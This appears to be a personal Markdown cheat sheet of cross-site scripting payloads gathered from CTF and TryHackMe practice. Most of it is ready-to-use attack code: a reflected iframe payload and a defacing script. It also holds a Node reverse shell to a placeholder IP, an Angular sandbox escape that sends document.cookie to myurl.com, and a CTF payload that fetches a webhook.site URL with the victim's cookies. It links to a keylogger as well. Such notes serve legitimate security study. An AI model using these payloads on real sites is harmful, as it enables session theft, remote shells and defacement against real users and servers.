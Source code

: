 # XSS Cross Site Scripting

Payloads can be written in Javascript, VBScript, Flash and CSS.  
## Check this GitHub
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection  
XSS-Payloads.com

### XSS Keylogger 
(http://www.xss-payloads.com/payloads/scripts/simplekeylogger.js.html) 
- You can log all keystrokes of a user, capturing their password and other sensitive information they type into the webpage.

### Port scanning (http://www.xss-payloads.com/payloads/scripts/portscanapi.js.html) 
- A mini local port scanner (more information on this is covered in the TryHackMe XSS room).


# Reflected XSS : Client-Side
Example : 
```url
http://10.10.186.74/#/track-result?id=<iframe src="javascript:alert(`xss`)">
```

## Redirect
```js
window.location='URL'
```

## Defacing
```html
<script>document.querySelector('#div_id').textContent = 'I am a hacker'</script>

<span id='div_id'>I'm a football lover</span>
```

## Reverse shell 

```html
<script>
(function(){ 
	var net = require("net"), 
	cp = require("child_process"), 
	sh = cp.spawn("/bin/sh", []); 
	var client = new net.Socket(); 
	client.connect(LOCAL_PORT_HERE, "LOCAL_IP_HERE", function(){ 
								client.pipe(sh.stdin); 
								sh.stdout.pipe(client); 
								sh.stderr.pipe(client); }
			); 
	return /a/; })();
</script>
```

## DOM Based XSS

That happens when some code is directly displayed in a `<script>...code...</script>`

## Angular
```javascript
{{toString.constructor.prototype.toString=toString.constructor.prototype.call;["a","alert(1)"].sort(toString.constructor);}}
```

```url
http://targeturl.com/?name={{constructor.constructor("var x = document.cookie; var url = `https://myurl.com?c=` + x ; document.location=url")()}}=
```

# Payload from Esaip hack 2023
**XSS me Luigi :** https://github.com/ESAIP-CTF/public-esaip-ctf-2023/tree/master/challenges/web/xss_me_luigi
```html
<!-- </textarea><script>fetch("https://webhook.site/935213b4-ea6b-4219-97b2-1516aeb94fc8?cookie=".concat(document.cookie))</script> -->
```